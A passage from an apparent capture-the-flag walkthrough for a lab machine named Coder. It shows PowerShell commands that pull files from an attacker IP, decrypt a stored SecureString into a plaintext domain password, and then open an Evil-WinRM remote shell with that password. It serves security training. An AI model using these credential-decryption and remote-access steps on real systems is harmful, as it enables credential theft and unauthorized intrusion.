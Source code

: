     +53
    +153
    +196
    +10
    +126
    +108
    +164
    +172
    +142
    +119
    +112
    +20
    +122


This diff shows 2 additional files. `Get-ADCS_Report.ps1` loads a key
from `key.key` and uses it to decrypt `enc.txt` into a password for the
e.black user. Then it sends an email using those creds.

`enc.txt` has a base64-encoded string. `key.key` has a series of bytes
as ints.

### Get Password

To get the password, I'll create copies of `enc.txt` and `key.key` and
upload them to Coder:



    PS C:\programdata> iwr 10.10.14.6/key.key -outfile key.key
    PS C:\programdata> iwr 10.10.14.6/enc.txt -outfile enc.txt



Then in PowerShell I'll use the commands above to load them into
variables and get the raw password



    PS C:\programdata> $key = Get-Content ".\key.key"
    PS C:\programdata> $pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
    PS C:\programdata> $cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
    PS C:\programdata> $cred.GetNetWorkCredential().Password
    ypOSJXPqlDOxxbQSfEERy300



### WinRM

I'll connect as e.black over WinRM with
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    oxdf@hacky$ evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint
